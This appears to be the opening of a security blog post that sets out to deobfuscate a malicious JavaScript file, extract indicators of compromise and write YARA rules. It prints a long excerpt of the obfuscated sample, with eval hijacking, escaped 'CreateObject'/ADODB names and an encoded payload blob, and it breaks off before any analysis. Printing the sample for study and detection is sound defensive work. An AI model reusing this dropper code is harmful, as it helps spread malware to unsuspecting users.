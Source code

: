 In this blog, we will dive into the technical analysis of this malicious file, focusing on both static and dynamic techniques. Our main goal is to deobfuscate the JavaScript code, extract key Indicators of Compromise (IOCs), and analyse hidden network connections and registry modifications. Additionally, we will develop YARA rules based on the findings to support future detection efforts.


## Analysis of the Malicious JavaScript Code

The first twelve lines of the malicious JavaScript file look like this:


```javascript
String["prototype"].proc = function() { eval(this.toString()); };
String["prototype"]["\x75\x6E\x64\x65\x66\x69\x6E\x65\x64"] = function(xx, xy) {
    var ibz = 0;
    do {
        xx[ibz + 3] = xy[ibz];
        ibz += 1;
    } while (ibz < 3);
};
String.\u0070\u0072\u006f\u0074\u006f\u0074\u0079\u0070\u0065.\u006D\u006F\u0075\u0073\u0065 = {
    mp3: function() {
        var d = "";
        for (var i = 0; i < this.toString().length; i++) {
            d = eval("var cd = this.toString().substr(i, 1);cd;") + d;
        }
        return d;
    }
}.mp3;
var \u006D\u0033\u004D\u006F\u0072\u0059\u006B\u0041\u0064 = [null,
    ("\x43\x72\x65\x61\x74\x65\x4F\x62\x6A\x65\x63\x74" + "txeTdaeR|" + "undefined|" + "\x61\x64\x6F\x64\x62\x2E|" + "noitisoP|teSrahC").split("|").concat("epyT".mouse(), "nepO".mouse())
];

var exp = /{(\d+)}/g; 
var oMut1 = null;
Array.prototype.om0l4d3 = function() {
    var hYiUrF = \u0061\u0072\u0067\u0075\u006D\u0065\u006E\u0074\u0073; 
    return this[0]["replace"](exp, function(k3tTlE0, k3tTlE1) { 
        try {
            return hYiUrF[k3tTlE1];
        } catch (ex) {
            return k3tTlE0;
        }
    });
};

// then the attacker pass the obfucated string to "Array.prototype.s0fStu"

Array.prototype.s0fStu = "{2}mFyIG5lbTQ0Ow0K{2}mFyIGxvbm{2}UZXh0ID0{0}IlVFc0{1}CQlEhPi1DIT4tZ0khPi1Fc0x{1}VmshPi0hPi0hPi0hPi0hPi0hPi0hPi0hPi0hPi0hPi0hPi0hPi0hPi0hPi0hPi0hPi1VIT4tIT4tIT4tIT4tVFVWVVFTMUpUa1l2VFVGT1NVWkZVMVF1VFVhTmtF{1}kx4{1}CE+LVFoZStCL0ljNTZt{1}ml1MXBjZTF1TG5x{2}3JJckkzbV{1}SWm1wb21OVW1SL252alhuUkZSSmpM{2}lBmbVkyWmFjbWF2WThKbkhhTHhyb1pT{1}kp4{2}DNEZGxNMUhYYThoYU5xL0VKV2{1}OMEpTMH{2}1{2}mxNNzhXeGN1cUts{1}V{2}hempaQnVxc2hzYUh5UW{1}L{1}1hDYT{0}1Wml4IT4tZEtmUTNXeUxPNHhLUk{0}3TDEveFhOUmlZSEN{1}UjhjWVpYNz{1}raVpMS1c5{1}HlOV25N{1}1JHOStzU1JvSEpi{2}k1LUy9FU3BUL2cyWFMrTVA5{1}S9iTHhwen{1}zTm0yN2MzOVV3MH{1}HWWVITStIZFchPi10UyE+LXltbEZkQ2MvSmovMEpHMUM4aGNzN0{2}LczYrQk{2}"

// Follow by the remaining code

m3MorYkAd[2] = Array(
    "m3MorYkAd[4]()[m3MorYkAd[1][6]] = 1;m3MorYkAd[4]()[m3MorYkAd[1][7]]();m3MorYkAd[4]()[\"Writ\" + \"e\"](m3MorYkAd[3][1]['nodeTypedValue']);",
    "m3MorYkAd[4]()[m3MorYkAd[1][5]] = 0;m3MorYkAd[4]()[m3MorYkAd[1][6]] = 2;",
    "m3MorYkAd[4]()[m3MorYkAd[1][4]] = m3MorYkAd[3][2][0];",
    null
```